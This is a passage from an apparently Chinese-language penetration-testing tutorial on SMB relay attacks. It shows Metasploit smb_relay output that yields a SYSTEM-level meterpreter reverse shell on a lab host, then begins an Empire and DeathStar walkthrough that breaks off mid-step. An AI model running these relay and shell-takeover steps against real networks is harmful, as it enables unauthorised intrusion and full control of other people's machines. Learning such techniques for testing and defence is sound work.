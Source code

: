 ```plain
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Sending stage (179779 bytes) to 192.168.188.128
[*] Closing service handle...
[*] Deleting \hGaRjHmf.exe...
```

然后直接 getshell，还是 system 权限，因为调用了系统服务：

```plain
msf exploit(windows/smb/smb_relay) > sessions 
Active sessions
===============
  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ X-90E984B4C76D4  192.168.188.136:4444 -> 192.168.138.188:1034 (192.168.188.128)
```

##### Empire

我们也可以使用 Empire 来进行 SMB 中继攻击测试，具体步骤如下所示：  
Step 1：启动 Empire 并清除 agent

```plain
./empire --rest --username username --password 123456
```

[![](assets/1701222524-ba60e14f5a953a1fdb21b17fe5c0e6b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144524-b55fac34-8db9-1.png)  
Step 2：启动 Deathstar，ip 为攻击机 ip，为了接管 agent
